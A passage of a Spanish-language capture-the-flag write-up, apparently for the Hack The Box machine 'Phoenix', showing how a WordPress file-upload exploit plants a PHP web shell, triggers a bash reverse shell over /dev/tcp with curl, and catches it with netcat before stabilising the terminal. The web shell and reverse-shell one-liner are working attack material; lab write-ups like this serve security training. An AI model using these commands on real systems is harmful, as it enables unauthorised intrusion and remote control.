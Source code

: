 Para que el exploit ignore el certificado autofirmado añado lo siguiente:

```null
import urllib3

urllib3.disable_warnings()
```

Mi archivo que me permite ejecutar comandos es:

```null
cat cmd.phtml
<?php
  shell_exec($_REQUEST['cmd']);
?>
```

Además, en todas las peticiones un ```verify=False```

```null
python3 exploit.py https://phoenix.htb/ ./cmd.phtml
Download From Files <= 1.48 - Arbitrary File Upload
Author -> spacehen (www.github.com/spacehen)
Uploading Shell...
Shell Uploaded!
https://phoenix.htb/wp-admin/cmd.phtml
```

Me envío una reverse shell

```null
curl -s -X GET -k https://phoenix.htb/wp-admin/cmd.phtml?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.2/443%200%3E%261%27
```

Gano acceso a la máquina víctima

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.149.
Ncat: Connection from 10.10.11.149:54766.
bash: cannot set terminal process group (961): Inappropriate ioctl for device
bash: no job control in this shell
wp_user@phoenix:~/wordpress/wp-admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
wp_user@phoenix:~/wordpress/wp-admin$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
wp_user@phoenix:~/wordpress/wp-admin$ export TERM=xterm
wp_user@phoenix:~/wordpress/wp-admin$ export SHELL=bash
wp_user@phoenix:~/wordpress/wp-admin$ stty rows 55 columns 209
```
